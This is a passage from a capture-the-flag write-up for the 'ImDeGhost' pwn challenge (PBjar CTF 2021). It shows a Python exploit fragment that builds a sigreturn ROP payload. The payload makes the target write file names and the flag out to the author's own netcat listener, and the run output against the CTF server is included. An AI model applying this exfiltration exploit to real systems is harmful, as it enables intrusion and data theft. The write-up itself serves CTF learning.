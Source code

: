 ```python
# sys_write(1, mem + 0xb00, 0x300)
buf += Sigreturn(1, 0, 0, 0x300, mem + 0xb00, 1, mem + 0x170, mem + 0xf0*5, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

buf += b"A"*(0xe00-len(buf))
buf += b"./0101111001001101\x00"
buf += b"A"*(0xe80-len(buf))
buf += p32(0x55550002) + p32(ip_addr)
buf += b"A"*(0xf00+15-len(buf))
#pause()
s.send(buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost$ python3 solve_filename.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost/imdeghost'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42007: Done
[*] Switching to interactive mode
Boo.

mito@ubuntu:~/Desktop$ nc -lp 21845
...
dockerenvAN(0101111001001101AAAAAA...
```

```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost$ python3 solve_flag.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_ImDeGhost/imdeghost/imdeghost'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42007: Done
[*] Switching to interactive mode
Boo.

mito@ubuntu:~/Desktop$ nc -lp 21845
flag{aAaaaaAaaAAaAAAAaAAaAAAAaaAaaaaA}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```

## Reference:

http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

https://inaz2.hatenablog.com/entry/2014/07/30/021123
